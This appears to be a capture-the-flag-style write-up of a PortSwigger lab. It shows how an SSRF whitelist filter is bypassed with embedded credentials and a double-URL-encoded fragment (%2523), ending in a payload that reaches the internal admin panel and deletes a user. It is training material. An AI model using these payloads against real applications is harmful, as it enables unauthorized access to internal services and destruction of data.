







# PortSwigger - SSRF with Whitelist-Based Input Filter | Write-up

> **Platform:** PortSwigger &nbsp;•&nbsp; **Category:** Web Security / SSRF &nbsp;•&nbsp; **Difficulty:** Expert
>
> **Target:** `web (lab instance)` &nbsp;•&nbsp; **Time taken:** 20 mins
>
> **Author:** Jithin Jelson

---

## Introduction

Some applications allow inputs that match a whitelist of allowed values, so you may be able to trick the filter by exploiting inconsistencies in URL parsing. This lab has a stock check feature that fetches data from an internal system. To solve the lab we have to delete the user carlos.

---

## Assessment Overview

```mermaid
flowchart LR
    A[Stock check feature<br/>SSRF entry point]:::entry

    A --> B[Recon:<br/>point at 127.1]:::payload
    B --> B1[Blocked by whitelist<br/>host must be<br/>stock.weliketoshop.net]:::mitre
    B1 -.-> D[Insight: only the<br/>hostname is checked]:::intel

    A --> D

    D --> E[Embedded creds<br/>user@host]:::payload
    E --> E1[Parser accepts it<br/>500 internal error]:::ioc

    D --> F[Add plain #<br/>fragment]:::payload
    F --> F1[Filter catches raw #<br/>400 rejected]:::mitre

    E1 --> G[Double-encode #<br/>to %2523]:::payload
    F1 --> G
    G --> H[Parser splits URL<br/>connects to localhost]:::ioc

    H --> I1[Reach /admin panel]:::ioc
    H --> I2[302 on<br/>/admin/delete]:::ioc
    I1 --> J[Delete user carlos]:::user
    I2 --> J
    J --> K[Lab solved]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```



---

## What I Learned

- How a whitelist filter differs from a blacklist, since it only allows an approved hostname instead of blocking known-bad ones.
- Why embedded credentials in a URL (user@host) matter, because the parser treats everything before the @ as a username and everything after as the real host.
- Using the URL fragment (#) to split how the validator and the connector read the same URL.
- Double URL encoding a blocked character (# to %2523) to slip it past an input filter while it still decodes to a real # later.

---

## Intercepting the Stock Check Feature

We can boot up Burp Suite and intercept our stock check API which is vulnerable.



*Figure 1 - The legitimate stock check request in Burp Repeater, with the `stockApi` parameter pointing at the internal host `stock.weliketoshop.net:8080`.*

---

## Testing localhost Against the Whitelist

We can test trying to connect to localhost, trying some obfuscated methods of typing 127.0.0.1.

```
stockApi=http://127.1
```



*Figure 2 - Even the obfuscated `127.1` is rejected with `400 Bad Request` and the message "External stock check host must be stock.weliketoshop.net".*

However we can see that it is whitelisted to stock.weliketoshop.net and everything else seems to be denied regardless. Since URLs can carry a username, like http://username@host/, we can try and abuse this.

```
stockApi=http://127.0.0.1@stock.weliketoshop.net
```



*Figure 3 - With `127.0.0.1@stock.weliketoshop.net` the whitelist reads the host as the allowed `stock.weliketoshop.net`, and the response changes to "Internal Server Error, Could not connect to external stock check service".*

---

## Using the URL Fragment

Now when we try and send this request it seems our request is accepted, which proves the parser understands the user@host format. However since it is still triggering an error we have to use # in a URL. This is the fragment, and everything after it gets ignored.

```
stockApi=http://127.0.0.1#@stock.weliketoshop.net
```



*Figure 4 - A plain `#` is caught by the filter and the request is rejected again with `400 Bad Request` and "host must be stock.weliketoshop.net", so the filter is watching for the raw `#`.*

---

## Bypassing the Filter With Double URL Encoding

However we still got an error, which means probably some input filtering is taking place. We can try and bypass this by URL encoding it.

```
stockApi=http://127.0.0.1%2523@stock.weliketoshop.net
```



*Figure 5 - Double URL encoding the `#` as `%2523` slips it past the filter. The parser now splits the URL at the decoded `#`, connects to localhost, and the response contains the internal admin panel markup, including the `/admin` link.*

The first encoding didn't work, so we URL encoded it again and it seems we have access to the admin panel now.

---

## Deleting carlos and Solving the Lab

From there we can execute the required command to delete the user.

> Change the stock check URL to reach the internal admin interface and delete the user carlos.

```
stockApi=http://127.0.0.1%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

**Answer:** `http://127.0.0.1%2523@stock.weliketoshop.net/admin/delete?username=carlos`



*Figure 6 - Appending `/admin/delete?username=carlos` to the same double-encoded payload deletes the user, and the server responds with `302 Found` redirecting to `/admin`.*



*Figure 7 - The lab is marked solved with the "Congratulations, you solved the lab!" banner after carlos is deleted.*
